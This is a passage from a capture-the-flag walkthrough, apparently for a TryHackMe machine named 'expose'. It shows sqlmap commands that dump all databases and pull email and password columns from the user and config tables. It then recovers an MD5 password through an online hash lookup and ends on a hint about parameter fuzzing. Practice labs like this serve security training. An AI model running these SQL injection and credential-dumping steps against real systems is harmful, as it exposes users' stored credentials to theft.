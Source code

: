```
$ sqlmap -r req.raw --batch --dump-all --threads=10
```

The databases that are available:

![b15c7a7841d55eb543322dbce4355cd3.png](/resources/9b0f84984be34d64adef0336172f9743.png)

First we'll explore the "expose" database using `-D expose` and list all the tables with `--tables`:

```
$ sqlmap -r raw.req -D expose --tables
```

![aed9f0eff6325eddda83cc60f073c7c6.png](/resources/1eff521b65d849efa7c226e5fe39c742.png)

Then we select the table we want, in this case "user" with `-T user` and list all the columns with `--columns`:

```
$ sqlmap -r req.raw -D expose -T user --columns
```

![6eb14230e726c746be09cb93c4f16e78.png](/resources/ef92f8aa30774414991b83563a3b2587.png)

The columns that seem interesting are "email", "id" and "password". We can select them with `-C email,id,password` and use `--dump` to dump all available entries for these columns:

```
$ sqlmap -r req.raw -D expose -T user -C email,id,password --dump
```

![b57f1501de16591660d587d9f0b8c099.png](/resources/897ac586ac544890b182e9b12391511b.png)

Here we dump the entries for the other table "config":

```
$ sqlmap -r req.raw -D expose -T config -C id,url,password --dump
```

![225d8e3720e3ac15ce7bf92a09831b4f.png](/resources/6d23b69a66a44d7391c1cddd8316c24d.png)

### \[-] expose.thm:1337/file1010111

When the page loads we are prompted to enter a password:

![8036b709035ea95c53300fe1ba817d94.png](/resources/a2bf9409c8294a42b9e61c37d1fef58d.png)

The password we found from `sqlmap` was hashed using [MD5](https://en.wikipedia.org/wiki/MD5). We can use a site like [hashes.com](https://hashes.com/en/decrypt/hash) to find the plaintext of the hash:

![4bed91e85be5d09a49ac96e5d178b0e9.png](/resources/da770dd22fed4ffc9a4808c8b6c77035.png)

After entering the password we find the next clue:

![c6e479d940823b516c2302fa5e7dcf6a.png](/resources/070d2a74cc2c408db99ab8bcf9c2a363.png)
*"Parameter Fuzzing is also important :) or Can you hide DOM elements?"*
